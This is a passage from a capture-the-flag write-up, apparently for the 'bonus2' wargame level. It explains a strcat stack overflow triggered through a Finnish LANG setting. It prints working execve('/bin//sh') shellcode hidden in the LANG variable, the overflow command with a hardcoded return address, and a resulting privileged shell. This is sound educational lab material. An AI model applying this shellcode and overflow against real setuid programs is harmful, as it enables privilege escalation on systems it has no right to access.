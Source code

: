 **Shellcode Characteristics:**
- **Size**: 20 bytes (compact implementation)
- **Null-Free**: No zero bytes (environment variable safe)
- **Self-Contained**: No external dependencies

## Attack Flow Execution

### Complete Exploit Sequence
```bash
# Phase 1: Environment Setup
export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

# Phase 2: Buffer Overflow Trigger
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xec\xfe\xff\xbf"')

# Phase 3: Execution Flow
# 1. main() combines arguments into 72-byte user string
# 2. getenv("LANG") detects "fi" prefix → sets lang = 1
# 3. greetuser() uses Finnish greeting (13 bytes)
# 4. strcat() appends 72-byte user data to 13-byte greeting
# 5. 85-byte result overflows 64-byte buffer by 21 bytes
# 6. Return address overwritten with 0xbffffeec (NOP slide)
# 7. Function return jumps to NOP slide → slides to shellcode
# 8. execve("/bin//sh") spawns privileged shell
```

### Execution Result Analysis
```bash
Output: "Hyvää päivää AAAAAAAA...BBBBBB����"
Status: Shell spawned with bonus3 privileges (SUID escalation)
Verification: whoami → bonus3, id → euid=2013(bonus3)
```

## Advanced Exploitation Techniques

### Environment Variable as Attack Vector
- **Dual Purpose**: LANG serves both as trigger and payload storage
- **Persistence**: Environment survives across program executions  
- **Large Capacity**: Environment variables can store substantial payloads
- **Steganography**: Shellcode hidden within seemingly legitimate LANG value

### Internationalization Exploitation
- **Language-Dependent Overflow**: Different greeting lengths create varying overflow conditions
- **Localization Abuse**: i18n features become security vulnerabilities
- **Cultural Context**: Exploiting human-centric features for technical attacks

### Dynamic Address Resolution
- **Runtime Discovery**: Finding environment addresses during execution
- **ASLR Bypass**: Using relative addressing within environment space
- **NOP Slide Strategy**: Large target area compensates for address uncertainty
